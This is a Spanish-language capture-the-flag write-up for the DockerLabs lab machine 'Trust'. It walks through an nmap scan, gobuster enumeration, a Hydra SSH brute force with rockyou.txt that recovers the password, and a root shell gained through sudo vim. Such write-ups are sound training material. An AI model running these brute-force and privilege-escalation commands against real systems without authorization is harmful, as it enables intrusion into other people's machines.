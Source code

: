 ```yaml
---
title: Trust - DockerLabs
published: true
categories: DockerLabs
---
```


 
| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Super Fácil | ElPinguinoDeMario | 

## Contenidos
1. [Escaneo y Reconocimiento de puertos](#Escaneo-y-Reconocimiento-de-puertos)
2. [Enumeración Web](#Enumeración-Web)
3. [Ataque de fuerza bruta con Hydra](#Ataque-de-fuerza-bruta-con-Hydra)
4. [Intrusión y Escalada de privilegios](#Intrusión-y-Escalada-de-privilegios)


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![Reconocimiento](https://github.com/romabri/WriteUps/assets/51706860/9374ba63-c786-4e08-ae44-c3672d159e86)

`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH` y el puerto 80 `HTTP`

## Enumeración Web

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![web](https://github.com/romabri/WriteUps/assets/51706860/ce0df111-f0a7-4abc-8d00-955226c4aec8)

Vemos que nos encuentra un directorio llamado secret.php. Si accedemos a él, vemos lo siguiente:

![web2](https://github.com/romabri/WriteUps/assets/51706860/127749c8-2bba-4eaa-a83b-6a640b960bf4)

Aparece el nombre de Mario, por lo que probablemente sea un posible usaurio.


## Ataque de fuerza bruta con Hydra

Como tenemos un possible usuario, vamos hacer un ataque de fuerza bruta con Hydra al protocolo ssh de la siguiente forma:

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
- `-l` - Para especificar el usaurio
- `-P` - Para especificar que diccionario de fuerza bruta usaremos
- `ssh://172.17.0.2` - Especificamos que queremos atentar contra el protocolo SSH de la IP victima


![att](https://github.com/romabri/WriteUps/assets/51706860/4ff3c53d-abe0-434e-b23f-1e162b9f3dce)

Como vemos, existe el usuario `mario` y la contraseña es `chocolate`.


## Intrusión y Escalada de privilegios

Ahora accedemos vía SSH 

`ssh mario@172.17.0.2`

Si hacemos el comando `sudo -l`, vemos que tenemos permisos para ejecutar como sudo el binario `VIM`

Para poder escalar privilegios con este binario, hacemos lo siguiente:

``sudo /usr/bin/vim -c ':!/bin/sh'`` 

Esto nos lanzará una terminal pero en modo `ROOT` y ya habremos terminado la máquina.

![imagen](https://github.com/romabri/WriteUps/assets/51706860/34672299-f455-4af2-bd6e-edb5bb059d46)
